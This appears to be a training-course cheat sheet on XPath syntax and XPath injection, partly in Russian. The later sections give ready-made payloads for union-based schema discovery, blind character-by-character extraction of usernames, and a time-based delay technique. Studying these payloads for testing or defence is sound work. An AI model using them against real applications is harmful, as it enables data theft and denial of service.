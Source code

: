 # Example
```xml
<?xml version="1.0" encoding="UTF-8"?>
  
<academy_modules>  
  <module>
    <title>Web Attacks</title>
    <author>21y4d</author>
    <tier difficulty="medium">2</tier>
    <category>offensive</category>
  </module>

  <!-- this is a comment -->
  <module>
    <title>Attacking Enterprise Networks</title>
    <author co-author="LTNB0B">mrb3n</author>
    <tier difficulty="medium">2</tier>
    <category>offensive</category>
  </module>
</academy_modules>
```

|query|explaination|
|--------|--------|
|`module`|select all `module` child nodes of the context node|
|`/`|Select the document root node|
|`//`|Select descendant nodes of the context node|
|`.`|Select the context node|
|`..`|Select the parent node of the context node|
|`@difficulty`|Select the `difficulty` attribute node of the context node|
|`text()`|Select all text node child nodes of the context node|

## QUERIES
|query|explaination|
|--------|--------|
|`/academy_modules/module`|Select all `module` child nodes of `academy_modules` node|
|`//module`|Select all `module` nodes|
|`/academy_modules//title`|Select all `title` nodes that are descendants of the `academy_modules` node|
|`/academy_modules/module/tier/@difficulty`|Select the `difficulty` attribute node of all `tier` element nodes under the specified path|
|`//@difficulty`|Select all `difficulty` attribute nodes|

### Predicates
|query|explaination|
|--------|--------|
|`/academy_modules/module[1]`|Select the first `module` child node of the `academy_modules` node|
|`/academy_modules/module[position()=1]`|Select the first `module` child node of the `academy_modules` node|
|`/academy_modules/module[last()]`|Select the last `module` child node of the `academy_modules` node|
|`/academy_modules/module[position()<3]`|Select the first two `module` child nodes of the `academy_modules` node|
|`//module[tier=2]/title`|Select the `title` of all modules where the `tier` element node equals `2`|
|`//module/author[@co-author]/../title`|Select the `title` of all modules where the `author` element node has a `co-author` attribute node|
|`//module/tier[@difficulty="medium"]/..`|Select all modules where the `tier` element node has a `difficulty` attribute node set to `medium`|

## Wildcards & Union
|Query|Explaination|
|--------|--------|
|`node()`|Matches any node|
|`*`|Matches any `element` node|
|`@*`|Matches any `attribute` node|
|`//module[tier=2]/title/text() \| //module[tier=3]/title/text()`|	Select the title of all modules in tiers 2 and 3|

## Functions
- `name()` - name of the node
- `substring()` -  allows us to exfiltrate the name of a node one character at a time
- `string-length()` - enables us to determine the length of a node name to know when to stop the exfiltration
- `count()` - returns the number of children of an element node

## Useful commands
- `count((//.)[count((//.))])` равносильно `sleep`
- `string-length(name(/*[1]))=1`
- `substring(name(/*[1]),1,1)='a'`
- `count(/users/*)=1`

### Приложение возвращает не все данные
To iterate through the XML schema, we must first determine the schema depth. We can achieve this by ensuring the original XPath query returns no results and appending a new query that gives us information about the schema depth. We set the search term in the parameter `q` to anything that does not return data, for instance, `SOMETHINGINVALID`. We can then set the parameter `f` to `fullstreetname | /*[1]`. This results in the following XPath query:
`/a/b/c/[contains(d/text(), 'SOMETHINGINVALID')]/fullstreetname | /*[1]`

We can now determine the schema depth by iteratively appending an additional `/*[1]` to the subquery until the behavior of the web application changes. The results look like this (the q parameter remains the same as above for all requests):

|query|Response|
|--|--|
|`fullstreetname \| /*[1]`|Nothing|
|`fullstreetname \| /*[1]/*[1]`|Nothing|
|`fullstreetname \| /*[1]/*[1]/*[1]`|Nothing|
|`fullstreetname \| /*[1]/*[1]/*[1]/*[1]`|`01ST ST`|
|`fullstreetname \| /*[1]/*[1]/*[1]/*[1]/*[1]`|Nothing|

### Extracting information

To exract information about 2 node:
`fullstreetname | /*[1]/*[1]/*[2]/*[1]`


#### Blind
|query|result|Description|
|--|--|--|
|`invalid' or substring(name(/*[1]),1,1)='a' and '1'='1`|`/users/user[username='invalid' or substring(name(/*[1]),1,1)='a' and '1'='1']`|Count the length of the node|
|`invalid' or substring(name(/*[1]),2,1)='a' and '1'='1`||Get name of the node|
|`invalid' or count(/users/*)=1 and '1'='1`|`/users/user[username='invalid' or count(/users/*)=1 and '1'='1']`|Exfiltrating the Number of Child Nodes|
|`invalid' or string-length(/users/user[1]/username)=1 and '1'='1`|`/users/user[username='invalid' or string-length(/users/user[1]/username)=1 and '1'='1']`|Exfiltrating Data(length)|
|`invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1`|`/users/user[username='invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1']`|Exfiltrating Data (content)|

##### Time-based Exploitation
`invalid' or substring(/users/user[1]/username,1,1)='a' and count((//.)[count((//.))]) and '1'='1`

If the condition `substring(/users/user[1]/username,1,1)='a'` is `true`, the second part of the `and` clause needs to be evaluated, such that the web application evaluates `count((//.)[count((//.))])` causing it to exponentially iterate over the entire XML document resulting in significant processing time. On the other hand, if the initial condition is `false`, the second part of the `and` clause does not need to be evaluated since the predicate will return `false` no matter what the second part evaluates. Therefore, the web application does not evaluate it. This difference in processing time enables us to determine whether our injected condition is true.